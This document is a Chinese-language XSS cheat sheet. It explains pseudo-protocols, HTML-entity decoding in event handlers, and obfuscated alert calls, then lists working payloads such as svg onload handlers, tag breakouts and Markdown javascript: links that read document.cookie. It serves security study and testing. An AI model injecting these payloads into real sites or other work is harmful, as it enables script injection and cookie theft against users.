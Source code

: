 - 特殊标签
    - 以下标签中的脚本无法执行
    - `<title>`, `<textarea>`, `<iframe>`, `<plaintext>`, `<noscript>`...

- 伪协议
    - javascript:
        - `<a href=javascript:alert(1) >xss</a>`
    - data:
        - `<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>xss</a>`
- Javascript自解码机制
    - `<input type="button" onclick="document.write('&lt;img src=@ onerror=alert(1) /&gt;')" />`
    - 会成功`alert(1)`，因为javascript位于HTML中，在执行javascript前会先解码HTML编码
    - 但若是包在`<script>`中的javascript，不会解码HTML编码
    - 此编码为HTML entity和`&#xH;`(hex), `&#D;`(dec)形式

- Javascript中有三套编码/解码函数
    - escape/unescape
    - encodeURI/decodeURI
    - encodeURIComponent/decodeURICompinent

- 一些alert(document.domain)的方法
    - `(alert)(document.domain);`
    - `al\u0065rt(document.domain);`
    - `al\u{65}rt(document.domain);`
    - `window['alert'](document.domain);`
    - `alert.call(null,document.domain);`
    - `alert.bind()(document.domain);`
    - https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309

- Some Payload
    - `<svg/onload=alert(1);alert(2)>`
    - `<svg/onload="alert(1);alert(2)">`
    - `<svg/onload="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;;alert(2)">`
        - `;;`改成`;`会失败
        - 双引号可去掉
        - 可10进制, 16进制混合
    - `<svg/onload=\u0061\u006c\u0065\u0072\u0074(1)>`
        - \u形式只能用在javascript，例如onload的a改成\u0061会失败
    - `<title><a href="</title><svg/onload=alert(1)>`
        - title优先权较大，直接中断其他标籤
    - `<svg><script>prompt&#40;1)</script>`
        - 因为`<svg>`，HTML Entities会被解析
        - 去掉`<svg>`会失败，`<script>`不会解析Entities
    - `<? foo="><script>alert(1)</script>">`
    - `<! foo="><script>alert(1)</script>">`
    - `</ foo="><script>alert(1)</script>">`
    - `<% foo="><script>alert(1)</script>">`

- Markdown XSS
    - `[a](javascript:prompt(document.cookie))`
    - `[a](j a v a s c r i p t:prompt(document.cookie))`
    - `[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)`
    - `[a](javascript:window.onerror=alert;throw%201)`
    - ...
